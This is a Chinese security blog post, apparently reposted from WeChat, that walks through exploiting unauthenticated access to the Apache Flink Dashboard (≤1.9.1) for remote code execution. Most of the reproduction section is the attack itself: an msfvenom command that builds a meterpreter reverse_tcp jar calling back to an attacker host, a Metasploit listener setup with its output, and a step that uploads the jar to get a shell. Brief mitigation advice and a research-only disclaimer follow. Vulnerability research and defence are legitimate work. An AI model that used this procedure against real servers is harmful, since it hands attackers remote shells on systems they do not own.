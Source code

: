 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/aomCajnZVA9WlnBqTE\_QPg)

![](https://mmbiz.qpic.cn/mmbiz_jpg/uljkOgZGRjcOs6KRgHrcLIZBSj7uFiaZ2ibQicHibY6xFUL37mnBF9dP6TZd6s4O3HNYH5aGEiaNWPKibrMC0dH9O5ng/640?wx_fmt=jpeg)

好久没更新了，今天趁 1024 更新一篇，最近工作中遇到这个漏洞，今天自己来做一下这个漏洞复现。  

Apache Flink 未授权访问 - 远程代码命令执行 - 复现

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcOs6KRgHrcLIZBSj7uFiaZ2ZicpFA9aae4QzmqibdyErO2VmtSIhBWJk6y14KDq7p2HOibMqvTVWxMtg/640?wx_fmt=png)

一、漏洞简介

Apache Flink Dashboard 默认没有用户权限认证。攻击者可以通过未授权的 Flink Dashboard 控制台，直接上传木马 jar 包，可远程执行任意系统命令获取服务器权限，风险极大。

二、影响版本  

Apache Flink <= 1.9.1(最新版本)

三、漏洞复现  

1、生成反弹 jar 包

```
msfvenom -p java/meterpreter/reverse\_tcp LHOST=XX.XX.XX.XX LPORT=4444 -f jar > rce.jar
```

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcOs6KRgHrcLIZBSj7uFiaZ29NcynmIT5zyhzFzJFb3najTKY1hoWqRxoVlq0FJt19rUq60Ip1suiag/640?wx_fmt=png)

2、msf 设置监听  

```
msf5 > use exploit/multi/handler 
\[\*\] Using configured payload generic/shell\_reverse\_tcp
msf5 exploit(multi/handler) > set payload java/shell/reverse\_tcp 
payload => java/shell/reverse\_tcp
msf5 exploit(multi/handler) > show options 

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (java/shell/reverse\_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf5 exploit(multi/handler) > set LHOST XX.XX.XX.XX
LHOST => XX.XX.XX.XX
msf5 exploit(multi/handler) > exploit 

\[\*\] Started reverse TCP handler on XX.XX.XX.XX:4444
```

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcOs6KRgHrcLIZBSj7uFiaZ2NglLRz2ERUXYEIpq8dsUoDJVU4ht7Eo87wqcOqxOTzxX4UuLTpcyeg/640?wx_fmt=png)

3、上传 Jar 包，并且提交

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcOs6KRgHrcLIZBSj7uFiaZ2ISveMsiau7Y6ADiaA0z1BKy99iaLZHibklQaxXZgZxgDUFdo0LjWBCKy3w/640?wx_fmt=png)

监听接受反弹的 shell，获取权限  

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcOs6KRgHrcLIZBSj7uFiaZ2KIMaD4Wal5uARCpI5HYhDGCb67iaAd4J8aBCj5L3KKTcbaZ7ibxSQ11w/640?wx_fmt=png)

四、安全建议

1\. 请关注 Apache Flink 官方以便获取更新信息：https://flink.apache.org/

2\. 针对 ApacheFlinkDashboard 设置防火墙策略 (禁止 Dashboard 对外访问，或者确保只对可信端点开放)， 仅允许白名单 IP 进行访问，并在 Web 代理中增加对该服务的 Digest 认证，防止未授权访问。关于认证设置可参考链接：

https://httpd.apache.org/docs/2.4/mod/mod\_auth\_digest.html。

五、参考连接

http://www.llidc.com/news/858.html

https://nitec.jhun.edu.cn/da/64/c4987a121444/page.htm

免责声明：本站提供安全工具、程序 (方法) 可能带有攻击性，仅供安全研究与教学之用，风险自负!

转载声明：著作权归作者所有。商业转载请联系作者获得授权，非商业转载请注明出处。

订阅查看更多复现文章、学习笔记

thelostworld

安全路上，与你并肩前行！！！！

![](https://mmbiz.qpic.cn/mmbiz_jpg/uljkOgZGRjeUdNIfB9qQKpwD7fiaNJ6JdXjenGicKJg8tqrSjxK5iaFtCVM8TKIUtr7BoePtkHDicUSsYzuicZHt9icw/640?wx_fmt=jpeg)

个人知乎：https://www.zhihu.com/people/fu-wei-43-69/columns

个人简书：https://www.jianshu.com/u/bf0e38a8d400

个人 CSDN：https://blog.csdn.net/qq\_37602797/category\_10169006.html

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcW6VR2xoE3js2J4uFMbFUKgglmlkCgua98XibptoPLesmlclJyJYpwmWIDIViaJWux8zOPFn01sONw/640?wx_fmt=png)